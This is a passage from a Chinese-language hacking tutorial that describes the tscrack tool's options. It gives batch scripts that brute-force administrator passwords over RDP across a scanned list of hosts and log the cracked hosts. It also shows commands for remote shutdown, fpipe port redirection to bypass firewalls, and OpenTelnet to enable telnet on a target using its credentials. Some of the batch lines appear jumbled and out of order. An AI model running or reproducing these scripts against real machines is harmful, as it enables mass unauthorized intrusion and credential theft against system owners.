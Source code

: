 　　-U 卸载移除tscrack组件

　　-f 使用－f后面的密码

　　-F 间隔时间（频率）

　　-l 使用－l后面的用户名

　　-w 使用－w后面的密码字典

　　-p 使用－p后面的密码

　　-D 登录主页面

　　用法示例

　　tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码

　　tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户

　　@if not exist ipcscan.txt goto noscan

　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

　　nscan

　　@echo 3389.txt no find or scan faild

　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)

　　3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat

　　@if not exist tscrack.exe goto noscan

　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt

　　:noscan

　　@echo tscrack.exe no find or scan faild

　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)

　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。

　　其它

　　Shutdown.exe

　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）

　　fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）

　　fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息

　　Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。

　　OpenTelnet.exe (远程开启telnet工具)

　　opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。

　　NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
